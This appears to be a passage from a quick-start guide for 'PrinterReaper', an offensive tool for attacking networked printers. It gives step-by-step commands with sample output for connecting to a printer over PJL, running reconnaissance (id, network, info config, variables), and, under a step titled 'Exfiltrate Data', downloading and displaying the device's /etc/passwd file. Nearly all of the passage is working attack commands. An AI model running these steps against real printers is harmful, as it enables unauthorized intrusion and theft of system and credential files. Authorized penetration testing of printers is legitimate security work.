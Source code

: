 ### Step 5: Exfiltrate Data (1 minute)

```bash
# Download sensitive file
192.168.1.100:/etc> download passwd

Downloaded passwd to ./passwd

# View file contents
192.168.1.100:/etc> cat passwd

root:x:0:0:root:/root:/bin/sh
admin:x:1000:1000:admin:/home/admin:/bin/sh
```

### Step 6: Get Network Info (30 seconds)

```bash
# Get comprehensive network information
192.168.1.100:/etc> network

Network Information:
==================================================
Network Configuration:
IP=192.168.1.100
SUBNET=255.255.255.0
GATEWAY=192.168.1.1

IP Configuration:
DHCP=ON
MAC=00:11:22:33:44:55
```

### Step 7: Disconnect (5 seconds)

```bash
# Exit PrinterReaper
192.168.1.100:/etc> exit

# Back to your shell
$
```

---

## 🎯 Common First Tasks

### Task 1: Reconnaissance

```bash
# Connect to printer
python3 printer-reaper.py 192.168.1.100 pjl

# Get full information
> id
> network
> info config
> variables
> pagecount
```
